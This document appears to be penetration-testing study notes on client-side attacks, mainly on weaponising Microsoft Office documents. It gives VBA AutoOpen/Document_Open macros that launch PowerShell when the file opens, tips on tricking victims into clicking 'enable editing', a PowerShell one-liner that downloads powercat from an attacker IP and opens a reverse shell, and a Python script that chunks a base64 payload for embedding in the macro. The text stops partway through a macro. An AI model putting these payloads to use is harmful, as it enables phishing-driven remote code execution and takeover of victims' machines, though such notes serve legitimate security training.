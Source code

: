 # Client-side attack
### information gathering
Displaying the metadata
```bash
exiftool -a -u [file]
```
See `Create Date`, `Modify Date`, `Author`
### Client Fingerprinting
[Canarytokens](https://canarytokens.org/nest/) - gather info about browser, IP address, and operating system from taget

### Exploiting Microsoft Office
deliver the Office document to our target -> Document with Mark of the Web(MOTW) will open in Portected View(disable editing,blocks execution of macros). -> trick victim to press the "enable editing" button 
**Macro** , _Visual Basic for Applications_ (VBA)
We could use the **.docm** or **.doc** file type for our embedded macro.
click `View` -> `Macro` -> create
 Code(automatically run powershell when open):
```Javascript
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```
Close the document and save it, reopen it again -> press `enable content` -> powershell pops out.
Then, we can declare a string variable named _Str_ with the `Dim` ,and run Str.
Payload for powercat revershell:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.156/powercat.ps1');powercat -c 192.168.45.156 -p 443 -e powershell
```
Encode it to base64 **(UTF16-LE)**
Run python script to split base64:
```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
Then combine it together:
```Javascript
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
```
